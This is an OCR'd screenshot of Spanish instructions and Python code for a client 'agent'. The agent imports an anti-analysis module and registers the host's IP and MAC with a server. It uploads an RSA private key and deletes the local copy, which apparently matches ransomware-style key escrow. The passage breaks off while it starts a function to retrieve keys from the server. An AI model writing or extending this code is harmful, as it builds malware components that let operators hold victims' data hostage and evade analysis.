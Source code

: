 
### 1\. Modificar el cliente para obtener la clave privada desde el servidor

Puedes hacer que el cliente realice una solicitud `GET` para obtener la clave privada de un agente dado su ID. Luego, el cliente puede almacenar el archivo o mostrarlo en el sistema de archivos.

A continuación, se muestra cómo modificar el código del cliente para que pueda recuperar la clave privada desde el servidor.

### Código del cliente (agente) modificado para obtener la clave privada:

```python
import requests
import socket
import os
import antianalysis

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None
    
# Función principal del agente
def register_agent():
    # Obtener IP y MAC del agente
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    private_key = load_private_key()
    
    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
        return
    
    # Cargar la clave privada desde el archivo
    server_url = 'http://127.0.0.1:5000/register_agent'
    
    # Crear un diccionario con los datos adicionales
    data = {
        'ip': ip,
        'mac': mac
    }
    files = {
        'private_key': ('rsa_private.pem', private_key, 'application/x-pem-file')
    }

    response = requests.post(server_url, data=data, files=files)    
    if response.status_code == 200:
        print("Agente registrado con éxito.")
        os.remove("rsa_private.pem")  # Eliminar la clave privada después de usarla
    else:
        print(f"Error al registrar el agente: {response.text}")

# Función para obtener la clave privada del servidor
def get_private_key(agent_id):
    server_url = f'http://127.0.0.1:5000/view_private_key/{agent_id}'
```
